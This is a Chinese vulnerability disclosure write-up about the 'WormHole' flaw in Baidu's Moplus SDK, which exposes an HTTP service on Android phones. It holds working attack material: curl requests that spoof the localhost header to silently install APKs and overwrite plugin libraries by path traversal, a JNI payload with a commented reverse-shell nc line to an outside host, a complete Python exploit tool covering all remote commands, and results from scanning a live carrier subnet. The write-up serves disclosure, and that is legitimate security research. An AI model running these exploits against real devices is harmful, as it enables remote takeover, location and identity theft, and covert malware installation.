




# Android.Wormhole.Vulnerability.BAIDU.Moplus.SDK

---

**Author:瘦蛟舞，蒸米**

**Create:20151009**

[[toc]]

> "You can't have a back door in the software because you can't have a back door that's only for the good guys." - Apple CEO Tim Cook

> "你不应该给软件装后门因为你不能保证这个后门只有好人能够使用。" - 苹果CEO 库克


---

## 0x00 序

最早接触网络安全的人一定还记得当年RPC冲击波，WebDav等远程攻击漏洞和由此产生的蠕虫病毒。黑客只要编写程序扫描网络中开放了特定端口的机器，随后发送对应的远程攻击代码就可以控制对方主机，在控制对方主机后，程序可以继续扫描其他机器再次进行攻击。因为漏洞出在主机本身，想要修复漏洞必须安装补丁才行，但因为很多人并不会及时升级系统或者安装补丁，所以漏洞或者蠕虫会影响大量的机器非常长的时间，甚至有的蠕虫病毒可以感染全世界上亿的服务器，对企业和用户造成非常严重的损失。

Android发布后，我们就一直幻想着能发现一个像PC上的远程攻击一样厉害的漏洞，但是Android系统默认并没有开放任何端口，开放socket端口的APP也非常稀少，似乎出现像PC那样严重的漏洞是不太可能的。但可惜的是，世界上并没有绝对的安全，就在这么几个稀少的端口中，我们真的找了一个非常严重的socket远程攻击漏洞，并且影响多个用户量过亿的APP，我们把这个漏洞称之为WormHole虫洞漏洞。


## 0x01 影响和危害

WormHole虫洞漏洞到底有多严重呢？请看一下我们统计的受影响的APP列表（还没有统计全）：

```
百度地图 检测版本8.7 
百度手机助手 检测版本6.6.0 
百度浏览器 检测版本6.1.13.0 
手机百度 检测版本6.9 
hao123 检测版本6.1 
百度音乐 检测版本5.6.5.0 
百度贴吧 检测版本6.9.2 
百度云 检测版本7.8
百度视频 检测版本7.18.1 
安卓市场 检测版本6.0.86 
百度新闻 检测版本5.4.0.0 
爱奇艺 检测版本6.0
```
...完整列表见附录

这个列表是2015年10月14号统计的百度系APP的最新版，理论上所有小于等于检测版本的这些百度系的APP都有被远程攻击的危险。根据易观智库的统计排行：


可以看到手机百度、百度手机助手、百度地图等百度系APP有着上亿的下载安装量和加起来超过三亿的活跃用户。

安装了百度的这些APP会有什么后果和危害呢？

1. 无论是 wifi 无线网络或者3G/4G 蜂窝网络，只要是手机在联网状态都有可能受到攻击。攻击者事先无需接触手机，无需使用DNS欺骗。

2. 此漏洞只与app有关，不受系统版本影响，在google最新的android 6.0上均测试成功。

3. 漏洞可以达到如下攻击效果:

- 远程静默安装应用

- 远程启动任意应用

- 远程打开任意网页

- 远程静默添加联系人

- 远程获取用用户的GPS地理位置信息/获取imei信息/安装应用信息

- 远程发送任意intent广播

- 远程读取写入文件等。

下面是视频DEMO，用来展示打开任意网页，远程安装应用以及添加联系人：

[http://v.youku.com/v_show/id_XMTM2NDk0NDQ2NA==.html](http://v.youku.com/v_show/id_XMTM2NDk0NDQ2NA==.html)

## 0x02 漏洞分析

安装百度系app后，通过adb shell连接手机，随后使用netstat会发现手机打开了40310/6259端口，并且任何IP都可以进行连接。



原来这个端口是由java层的nano http实现的，并且这个http服务，百度给起名叫immortal service（不朽/不死的服务）。为什么叫不朽的呢？因为这个服务会在后台一直运行，并且如果你手机中装了多个有wormhole漏洞的app，这些app会时刻检查40310/6259端口，如果那个监听40310/6259端口的app被卸载了，另一个app会立马启动服务重新监听40310/6259端口。


我们继续分析，整个immortal service服务其实是一个http服务，但是在接受数据的函数里有一些验证,比如 http 头部remote-addr字段是否是"127.0.0.1"，但是会一点web技巧的人就知道，只要伪造一下头部信息就可把remote-addr字段变成"127.0.0.1"。

(nanoHTTP的漏洞)



成功的和http server进行通讯后，就可以通过url给APP下达指令了。拿百度地图为例，以下是百度地图APP中存在的远程控制的指令的反汇编代码：



1.	geolocation 获取用户手机的GPS地理位置（城市，经度，纬度）
2.	getsearchboxinfo 获取手机百度的版本信息
3.	getapn 获取当前的网络状况（WIFI/3G/4G运营商）
4.	getserviceinfo 获取提供 nano http 的应用信息
5.	getpackageinfo 获取手机应用的版本信息
6.	sendintent 发送任意intent 可以用来打开网页或者与其他app交互
7.	getcuid 获取imei
8.	getlocstring 获取本地字符串信息
9.	scandownloadfile 扫描下载文件(UCDownloads/QQDownloads/360Download)
10.	addcontactinfo 给手机增加联系人
11.	getapplist获取全部安装app信息
12.	downloadfile 下载任意文件到指定路径如果文件是apk则进行安装
13.	uploadfile 上传任意文件到指定路径 如果文件是apk则进行安装

当我们看到这些远程指令的时候吓了一跳。你说你一个百度地图好好的导航行不行？为什么要去给别人添加联系人呢？添加联系人也就算了，为什么要去别的服务器下载应用并且安装呢？更夸张的是，安装还不是弹出对话框让用户选择是否安装，而是直接申请root权限进行静默安装。下图是代码段：





可以看到下载完app后会有三个判断:

1.手机助手为系统应用直接使用android.permission.INSTALL_PACKAGES权限静默安装应用
2.手机助手获得 root 权限后使用 su 后执行 pm install 静默安装应用
3.非以上二种情况则弹出引用安装的确认框

一般用户是非常相信百度系APP，如果百度系APP申请了root权限的话一般都会通过，但殊不知自己已经打开了潘多拉的魔盒。

如果手机没root就没法静默安装应用了吗？不是的，downloadfile和uploadfile可以选择下载文件的位置，并且百度系app会从"/data/data/[app]/"目录下动态加载一些dex或so文件，这时我们只需要利用downloadfile或uploadfile指令覆盖原本的dex或so文件就可以执行我们想要执行的任意代码了。比如说，利用dex或者so获取一个反弹shell，然后把提权的exp传到手机上执行获得root权限，接下来就可以干所有想干的任何事情了。

## 0x03 POC And Vulnerability

```
root@hammerhead:/ # busybox netstat -tunlp                                     
netstat: showing only processes with your user ID
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:8098            0.0.0.0:*               LISTEN      5260/com.baidu.BaiduMap
tcp        0      0 :::40310                :::*                    LISTEN      2893/com.baidu.appsearch
tcp        0      0 :::7777                 :::*                    LISTEN      2872/com.baidu.appsearch
```

因为是先安装的百度手机助手,再安装的百度地图,所以40310是由百度手机助手监听的.那么现在卸载手机助手会发生什么了? 百度地图会接下来继续干这活监听40310

```
root@hammerhead:/ # pm uninstall com.baidu.appsearch
WARNING: linker: app_process has text relocations. This is wasting memory and is a security risk. Please fix.
WARNING: linker: app_process has text relocations. This is wasting memory and is a security risk. Please fix.
Success
busybox netstat -tunlp                                     
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:8098            0.0.0.0:*               LISTEN      5260/com.baidu.BaiduMap
tcp        0      0 :::40310                :::*                    LISTEN      2972/com.baidu.BaiduMap
tcp        0      0 :::7777                 :::*                    LISTEN      5562/com.baidu.BaiduMap
```


百度输入法则一直监听6259端口

```
root@hammerhead:/ # busybox netstat -tunlp                                     
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 :::6259                 :::*                    LISTEN      17247/com.baidu.inp
```

其中手机助手中的静默安装是因为手机助手有申请 root 权限的选择.但是百度地图显然也没什么申请 root 权限的理由了. ( downloadfile写入文件的时候发现百度地图开始申请 root 权限)

```
    public void b(String arg7, Context arg8) {
        PackageInfo v0 = com.baidu.hello.patch.moplus.systemmonitor.util.a.b(arg8, arg8.getPackageName());
        if(v0 != null) {
            if((v0.applicationInfo.flags & 1) == 1) {
                if(b.a(this.b, "android.permission.INSTALL_PACKAGES") != 0) {
                    File v3 = new File(arg7);
                    if(this.a()) {
                        new c(this, "SystemMonitor_InstallAPKByPackageInstaller", v3, arg8, arg7).start();
                    }
                    else {
                        this.a(Uri.fromFile(v3), new SilentPackageInstallObserver(arg8, arg7), 0, arg8
                                .getPackageName());
                    }
                }
            }
            else if(com.baidu.hello.patch.moplus.a.b.a(arg8).a()) {
                com.baidu.hello.patch.moplus.a.b.a(arg8).a("pm install -r \'" + arg7 + "\'\n");
            }
            else {
                Intent v0_1 = new Intent("android.intent.action.VIEW");
                v0_1.setDataAndType(Uri.fromFile(new File(arg7)), "application/vnd.android.package-archive");
                v0_1.setFlags(1342177280);
                arg8.startActivity(v0_1);
            }
        }
    }
```

三个判断:

1. 手机助手为系统应用直接使用android.permission.INSTALL_PACKAGES权限静默安装应用
2. 手机助手获得 root 权限后使用 su 后执行 pm install 静默安装应用
3. 非以上二种情况则弹出引用安装的确认框

所以按照这个逻辑对百度地图使用 uploadfile 就会进入第三个分支提示用户安装.

接下来是对addcontactinfo和downloadfile分析了


远程添加联系人

```
/addcontactinfo?callback=xxx&postdata=[{"fields":+[{"type":+"phone",+"type_code":+2,+"type_ext":+2,+"value":+"110"}],+"name":+"hello",+"starred":+1}]&mcmdf=inapp_xxx 
```

```
GET /addcontactinfo?callback=xxx&postdata=%5B%7B%22fields%22%3A+%5B%7B%22type%22%3A+%22phone%22%2C+%22type_code%22%3A+2%2C+%22type_ext%22%3A+2%2C+%22value%22%3A+%22110%22%7D%5D%2C+%22name%22%3A+%22hello%22%2C+%22starred%22%3A+1%7D%5D&mcmdf=inapp_xxx HTTP/1.1
Host: 192.168.1.102:40310
remote-addr: 127.0.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
```

利用1:

现在我们已经有文件写入权限,把它转化成执行权限就可以反弹 shell 了,想想之前的寄生兽漏洞.思路就比较清晰了.将文件写入插件或者 so 文件中进行覆盖后执行即可.(注意需要是第三方的 so..因为 app 的 so 是系统权限,应用本身也是无权限进行写操作的)

http://www.wooyun.org/bugs/wooyun-2015-0123871

hook DexClassLoader 构造方法后可以发现百度地图加载了如下插件

```

	10-12 19:50:18.475    1817-2364/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.advertctrl_1.1.3_1444450673270/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.advertctrl/1.1.3 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.advertctrl_1.1.3_1444450673270/lib/armeabi
	10-12 19:50:26.666    1817-2364/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.posture_1.1.0_1444450673299/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.posture/1.1.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.posture_1.1.0_1444450673299/lib/armeabi
	10-12 19:50:29.476    1817-2364/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.websdk_1.4.11_1444450673311/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.websdk/1.4.11 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.websdk_1.4.11_1444450673311/lib/armeabi
	10-12 19:50:29.696    1817-2675/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.cater_2.1.9_1444450673282/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.cater/2.1.9 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.cater_2.1.9_1444450673282/lib/armeabi
	10-12 19:50:29.836    1817-2677/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.hotel_2.3.8_1444450673290/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.hotel/2.3.8 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.hotel_2.3.8_1444450673290/lib/armeabi
	10-12 19:50:29.836    1817-2676/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.scenery_4.1.2_1444450673303/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.scenery/4.1.2 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.scenery_4.1.2_1444450673303/lib/armeabi
	10-12 19:50:29.966    1817-2678/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.movie_2.1.1_1444450673294/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.movie/2.1.1 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.movie_2.1.1_1444450673294/lib/armeabi
	10-12 19:55:33.995    1817-4868/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.voice_1.6.5_1444450673309/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.voice/1.6.5 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.voice_1.6.5_1444450673309/lib/armeabi
	10-12 19:57:31.685    1817-5210/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.rentcar_3.1.0_1444450673302/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.rentcar/3.1.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.rentcar_3.1.0_1444450673302/lib/armeabi
	10-12 19:58:57.035    1817-5475/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.pano_1.4.1_1444450673298/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.pano/1.4.1 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.pano_1.4.1_1444450673298/lib/armeabi
	10-12 19:59:11.155    1817-5475/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.oil_1.1.0_1444450673297/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.oil/1.1.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.oil_1.1.0_1444450673297/lib/armeabi
	10-12 19:59:11.295    1817-5619/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.carwash_1.0.0_1444450673280/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.carwash/1.0.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.carwash_1.0.0_1444450673280/lib/armeabi
	10-12 19:59:11.375    1817-5628/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.drive_1.1.4_1444450673284/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.drive/1.1.4 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.drive_1.1.4_1444450673284/lib/armeabi
	10-12 19:59:23.395    1817-5628/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.trafficradio_1.5.1_1444450673307/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.trafficradio/1.5.1 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.trafficradio_1.5.1_1444450673307/lib/armeabi
	10-12 20:01:53.685    1817-6452/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.violation_1.1.0_1444450673308/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.violation/1.1.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.violation_1.1.0_1444450673308/lib/armeabi
	10-12 20:02:45.395    1817-6452/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.obd_1.0.10_1444450673295/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.obd/1.0.10 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.obd_1.0.10_1444450673295/lib/armeabi
	10-12 20:03:37.895    1817-6452/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.lbc_1.2.5_1444450673293/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.lbc/1.2.5 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.lbc_1.2.5_1444450673293/lib/armeabi
	10-12 20:03:48.775    1817-6452/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.o2ozone_2.0.0_1444450678558/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.o2ozone/2.0.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.o2ozone_2.0.0_1444450678558/lib/armeabi

```

取得/data/data/com.baidu.BaiduMap/cache/map.android.baidu.advertctrl/1.1.3/com.dex 文件后将其转成 smali 代码后注入命令,然后通过 DexClassLoader 进行优化.

之后再PATH CRC 与 modTime 就可以远程写入了.因为百度地图没啥第三方 so可以注入,而注入 odex 兼容性较差所以这里换成百度输入法注入 so 做实验

创建一个动态链接库包括以下代码
```
	jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved)
	{
	    JNIEnv* env = NULL;
	    jint result = -1;
	    int ret;
	    if ((*vm)->GetEnv(vm, (void**) &env, JNI_VERSION_1_4) != JNI_OK) {
	        return -1;
	    }
	    /* success -- return valid version number */
	    result = JNI_VERSION_1_4;
	    /* 反弹shell */
	    //ret = system("nc 192.168.8.163 8088|/system/bin/sh|nc 192.168.8.163 9999");
	    ret = system("id > /data/data/com.baidu.input/jni_id.txt");
	    LOGI("ret value of system is %d",ret);

	    return result;
	}
```	
	
追加到原版librabjni_V2_1_0.so中

	echo hellojni.so > librabjni_V2_1_0.so
	
../../../data/data/com.baidu.input/app_megapp/com.baidu.input.plugin.kit.qrcode/lib

curl -e http://m.baidu.com -H "remote-addr: 127.0.0.1" http://192.168.1.102:6259/downloadfile?downloadurl=http://192.168.1.50/librabjni_V2_1_0.so&callback=123&savepath=../../../data/data/com.baidu.input/app_megapp/com.baidu.input.plugin.kit.qrcode/lib&filesize=1233&mcmdf=inapp_xxx&querydown=download

```
cat /data/data/com.baidu.input/jni_id.txt     
uid=10158(u0_a158) gid=10158(u0_a158) groups=1015(sdcard_rw),1028(sdcard_r),3002(net_bt),3003(inet),50158(all_a158) context=u:r:untrusted_app:s0
```

利用2:远程静默安装 apk (需用户授予 root 权限,如果鉴权成功静默安装,鉴权失败则提示安装,种马/推广利器)

之前的方法是uploadfile:

```
curl -F file=@1.apk -e http://m.baidu.com -H "remote-addr: 127.0.0.1" http://192.168.1.102:40310/uploadfile\?install_type\=all\&callback\=123\&mcmdf\=inapp_123\&Filename\=1.apk\&
```

现在可以换成downloadfile: (downloadfile比uploadfile在百度系的 app 出现率要高,比如百度输入法就中就把uploadfile接口阉割了)

```
curl -e http://m.baidu.com -H "remote-addr: 127.0.0.1" http://192.168.1.102:40310/downloadfile?downloadurl=http://192.168.1.50/1.apk&callback=123&savepath=../../../sdcard&filesize=1233&mcmdf=inapp_xxx&querydown=download
```

**检测脚本**

---

```python
from optparse import OptionParser
from json import JSONEncoder
import requests,sys
import subprocess

class BaiduExp:
    commands = ["geolocation", "getsearchboxinfo", "getapn", "getserviceinfo", "getpackageinfo", "sendintent", "getcuid", "getlocstring", "scandownloadfile", "addcontactinfo", "getapplist", "downloadfile", "uploadfile"]
    matchUrl = "http://www.baidu.com/"
    def __init__(self, target, port, isRefCap=True):
        self.target = target
        self.port = port
        if (isRefCap):
            self.headers = {'Referer': self.matchUrl}
        else:
            self.headers = {'referer': self.matchUrl}
        self.headers.update({'remote-addr':'127.0.0.1'})#add in new Baidumap v8.5
        self.payload = {'callback':'xxx', 'mcmdf':'inapp_xxx'}

    def __getTargetUrl(self, command):
        if (command in self.commands):
            targetUrl = "http://" + self.target + ":" + self.port + "/"+command 
            return targetUrl
        else:
            print "Error! Command not found"
            exit(-1)

    def sendpayload(self, command, params=None):
        url = self.__getTargetUrl(command)
        if(url != None):
            if(command == 'sendintent'):
                self.payload['intent'] = params 
            elif(command == 'addcontactinfo'):
                contact_list = params.split(',') # support mulitiple contact add, but now we just test 1 in the form of <name,number>
                contact_item = [{'name':contact_list[0],'starred':1,'fields':[{'type':'phone', 'type_code':2, 'type_ext':2, 'value':contact_list[1]}]}]
                data = JSONEncoder(sort_keys=True).encode(contact_item)
                self.payload['postdata'] = data 
            elif(command == 'getpackageinfo'):
                self.payload['packagename'] = params
            elif(command == 'downloadfile'):
                download_params = params.split(',') #in the form of (download or qurey),downloadurl,savepath
                self.payload['querydown'] = download_params[0] 
                self.payload['downloadurl'] = download_params[1]
                self.payload['savepath'] = download_params[2]
                self.payload['filesize'] = '1233' # just a magic number
            elif(command == 'uploadfile'): 
                upload_params = params.split(',') #in the form of Filename,install_type(onlyroot, all) 
                self.payload['Filename'] = upload_params[0]
                self.payload['install_type'] = upload_params[1]
                url = url + "?"
                for(x,y) in self.payload.items():
                    url = url + x +"=" +y +"&"
                print url
                return subprocess.check_output(["curl","-F","file=@1.apk","-e",self.matchUrl,url]) # use curl instead of requests               
            elif(command == 'scandownloadfile'):
                ll = params.split(',')
                self.payload['intent'] = ll.argv[0]
                self.payload['apkfilelength'] = ll.argv[1]
                self.payload['apkfilename'] = ll.argv[2]
                self.payload['apkpackagename'] = ll.argv[3]
            try:
                r = requests.get(url, params = self.payload, headers = self.headers, timeout=10) 
                print r.status_code, r.url
                return r.text
            except Exception as e:
                return e
def main():
    usage ='''
       BaiduExp:  Exploiting baidu Android App for its unauthorized interface!

        usage: %prog -c [cmd] -p [param1[,param2]...] [ip] [port]
        cmd including:
            geolocation, getsearchboxinfo, getapn, getserviceinfo, getpackageinfo, sendintent, getcuid, getlocstring, scandownloadfile, addcontactinfo, getapplist, downloadfile, uploadfile
        cmd with params:
            sendintent -p [intent uri]
            addcontactinfo -p [usrname],[phone number]
            getpackageinfo -p [package name]
            downloadfile -p [download or query],[downloadurl],[savepath])
            uploadfile -p [filename],[install_type(onlyroot,all)]
            scandownloadfile -p [intent],[apkfilelength],[apkfilename],[apkpackagename]
        for example: python %prog  -c sendintent -p http://www.sina.com  192.168.1.150 6259'''

    parser = OptionParser(usage)
    parser.add_option("-c", "--cmd", action="store", type="choice", dest="command", choices=BaiduExp.commands)
    parser.add_option("-p", "--params", action="store", type="string", dest="params", help="parameters for specific command") 
    parser.add_option("-R", action="store_true", dest="CapitalizedReferer", default=False, help="Set payload's Referer of referer") 
    (options, args) = parser.parse_args()
    if(len(args) != 2): 
        parser.error("Should set [ip] [port] of target!")
    else:
        (ip, port) = tuple(args)
        fuckbd = BaiduExp(ip,port,options.CapitalizedReferer)
        print fuckbd.sendpayload(options.command,options.params)

if __name__=='__main__': 
    main()	
```
## 0x04 测试

简单测试了一下WormHole这个漏洞的影响性，我们知道3G/4G下的手机其实全部处于一个巨大无比的局域网中，只要通过4G手机开个热点，就可以用电脑连接热点然后用扫描器和攻击脚本对全国甚至全世界连接了3G/4G的手机进行攻击。在家远程入侵一亿台手机不再是梦。

我们使用获取包名的脚本，对电信的下一个 C 段进行了扫描，结果如下：

```
Discovered open port 6259/tcp on 10.142.3.25  "com.baidu.searchbox","version":"19"
	Discovered open port 6259/tcp on 10.142.3.93  "packagename":"com.baidu.appsearch"
	Discovered open port 6259/tcp on 10.142.3.135  "com.hiapk.marketpho","version":"121"
	Discovered open port 6259/tcp on 10.142.3.163  "packagename":"com.hiapk.marketpho"
	Discovered open port 6259/tcp on 10.142.3.117  "com.baidu.browser.apps","version":"121"
	Discovered open port 6259/tcp on 10.142.3.43   "com.qiyi.video","version":"20"
	Discovered open port 6259/tcp on 10.142.3.148  "com.baidu.appsearch","version":"121"
	Discovered open port 6259/tcp on 10.142.3.196  "com.baidu.input","version":"16"
	Discovered open port 6259/tcp on 10.142.3.204  "com.baidu.BaiduMap","version":"20"
	Discovered open port 6259/tcp on 10.142.3.145  "com.baidu.appsearch","version":"121"
	Discovered open port 6259/tcp on 10.142.3.188  "com.hiapk.marketpho","version":"21"
	Discovered open port 40310/tcp on 10.142.3.53  "com.baidu.BaiduMap","version":"122"
	Discovered open port 40310/tcp on 10.142.3.162  "com.ting.mp3.android","version":"122" 
	Discovered open port 40310/tcp on 10.142.3.139 "com.baidu.searchbox","version":"122"
	Discovered open port 40310/tcp on 10.142.3.143 "com.baidu.BaiduMap","version":"122"
	Discovered open port 40310/tcp on 10.142.3.176  "packagename":"com.baidu.searchbox"

```

255个IP就有16手机有WormHole漏洞。

除此之外，我们发现华为，三星，联想，金立等公司的某些机型在中国出厂的时候都会预装百度系app，突然间感到整个人都不好了。


## 0x05 总结

我们已经在2015年10月14日的时候将WormHole的漏洞报告通过乌云提交给了百度，并且百度已经确认了漏洞并且开始进行修复了。但这次漏洞并不能靠服务器端进行修复，必须采用升级app的方法进行修复，希望用户得到预警后尽快升级自己的应用到最新版，以免被WormHole漏洞攻击。

## 0x06 受影响的app列表

足球直播
足球巨星
足彩网
卓易彩票
助手贴吧
中国足彩网
中国蓝TV
中国蓝HD
珍品网
掌上百度
悦动圈跑步
优米课堂
音悦台
移动91桌面
央视影音
修车易
小红书海外购物神器
侠侣周边游
物色
万达电影
贴吧看片
贴吧饭团
视频直播
生活小工具
上网导航
全民探索
穷游
汽车之家
拇指医生(医生版)
萌萌聊天
美西时尚
么么哒
蚂蚁短租
旅游攻略
浏览器
乐视视频
酷音铃声
口袋理财
经理人分享
购车族
歌勇赛
凤凰视频
风云直播Pro
多米音乐
都市激情飙车
懂球帝
蛋蛋理财
穿越古代
彩票到家
彩票365
爆猛料
百姓网
百度桌面Plus
百度云
百度游戏大全
百度音乐2014
百度新闻
百度团购
百度图片
百度贴吧青春版
百度贴吧简版
百度贴吧HD
百度输入法
百度手机助手
百度手机游戏
百度视频HD
百度视频
百度浏览器
百度翻译
百度地图DuWear版
百度地图
百度HD
百度
安卓市场
爱奇艺视频
VidNow
Video Now
T2F话友
Selfie Wonder
PPS影音
PhotoWonder
hao123特价
CCTV手机电视
91桌面
91助手
91爱桌面
91 Launcher
365彩票
...
